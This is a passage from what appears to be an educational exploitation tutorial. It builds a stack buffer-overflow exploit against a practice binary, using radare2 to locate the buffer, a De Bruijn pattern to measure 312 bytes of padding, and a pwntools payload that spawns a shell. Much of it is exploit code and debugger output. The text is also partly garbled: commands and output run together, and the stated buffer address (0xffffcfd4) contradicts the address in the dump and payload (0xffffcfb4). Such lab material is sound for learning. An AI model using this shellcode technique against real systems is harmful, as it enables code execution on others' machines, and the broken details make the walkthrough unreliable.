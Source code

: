 ### Finding the Buffer in Memory

Let's debug `vuln()` using `radare2` and work out where in memory the buffer starts; this is where we want to point the return pointer to.

```
$ r2 -d -A vuln
[0xf7fd40b0]> s sym.unsafe ; pdf[...]; var int32_t var_134h @ ebp-0x134[...]
```

This value that gets printed out is a **local variable** - due to its size, it's fairly likely to be the buffer. Let's set a breakpoint just after `gets()` and find the exact address.

```
[0x08049172]> dcOverflow me<<Found me>>                    <== This was my inputhit breakpoint at: 80491a8[0x080491a8]> px @ ebp - 0x134- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF0xffffcfb4  3c3c 466f 756e 6420 6d65 3e3e 00d1 fcf7  <<Found me>>....
[...]
```

It appears to be at `0xffffcfd4`; if we run the binary multiple times, it should remain where it is (if it doesn't, make sure ASLR is disabled!).

### Finding the Padding

Now we need to calculate the padding until the return pointer. We'll use the De Bruijn sequence as explained in the previous blog post.

```
$ ragg2 -P 400 -r<copy this>
$ r2 -d -A vuln[0xf7fd40b0]> dcOverflow me<<paste here>>[0x73424172]> wopO `dr eip`312
```

The padding is 312 bytes.

### Putting it all together

In order for the shellcode to be correct, we're going to set `context.binary` to our binary; this grabs stuff like the arch, OS and bits and enables pwntools to provide us with working shellcode.

```
from pwn import *
context.binary = ELF('./vuln')
p = process()
```

We can use just `process()` because once `context.binary` is set it is assumed to use that process

Now we can use pwntools' awesome shellcode functionality to make it *incredibly* simple.

```
payload = asm(shellcraft.sh())          # The shellcode
payload = payload.ljust(312, b'A')      # Padding
payload += p32(0xffffcfb4)              # Address of the Shellcode
```

Yup, that's it. Now let's send it off and use `p.interactive()`, which enables us to communicate to the shell.
